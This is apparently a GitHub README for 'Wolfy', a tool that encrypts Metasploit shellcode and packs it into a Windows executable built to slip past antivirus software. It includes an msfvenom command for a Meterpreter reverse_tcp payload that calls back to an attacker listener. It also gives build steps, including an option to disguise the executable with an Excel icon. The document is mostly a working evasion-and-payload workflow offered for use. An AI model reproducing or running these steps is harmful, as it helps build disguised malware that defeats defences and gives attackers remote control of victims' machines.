

<h1 align="center">Wolfy AV Bypasser</h1> <br>

<p align="center"></p>
<p align="center">Wolfy is a tool which bypass AVs by using a crypter + the tool Condor from mrempy/Condor</p>


# Features

* Custom shellcodes with metasploit
* AES Encryption
* Can be used in Linux and Windows

# Usage

```bash
python3 wolfy.py -h

usage: wolfy.py [-h] -s SHELLCODE [-i ICON] -n EXENAME

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        .bin shellcode file
  -i ICON, --icon ICON  icon of exe
  -n EXENAME, --name EXENAME
                        .exe name
```


### 1. Generate a shellcode with msfvenom following this structure ->

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=443 -f raw -o shellcode.bin
```

**Note: You can generate whatever metasploit payload you want.**

### 2. Install the dependences

If you are in linux, execute `sudo bash install.sh`

If you are in Windows, execute `pip install pycryptodome pyinstaller tinyaes colorama Cython`

### 3. Run wolfy.py

```bash
python3 wolfy.py -s shellcode.bin -i excel -n myexename
```


# Special Thanks to mrempy

See
> [Condor](https://github.com/mrempy/Condor)
